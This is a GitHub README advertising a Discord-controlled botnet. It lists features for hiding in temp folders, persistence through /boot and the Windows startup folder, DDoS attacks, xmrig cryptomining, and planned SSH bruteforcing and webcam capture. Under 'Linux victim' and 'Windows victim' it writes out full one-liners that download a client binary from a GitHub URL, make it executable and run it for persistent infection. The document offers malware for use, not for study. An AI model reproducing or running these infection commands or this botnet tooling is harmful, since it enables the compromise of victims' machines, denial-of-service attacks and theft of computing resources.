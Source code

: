 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Zmap entine network scan (bruteforce scanned ssh by: https://github.com/bntr00t/sshb)
* Webcam picture
* ?

# Commands
![image](https://user-images.githubusercontent.com/104208624/204051770-4654a49d-2319-4785-a005-f494c7ba18aa.png)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && if exist Client.exe del Client.exe && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe && Client.exe
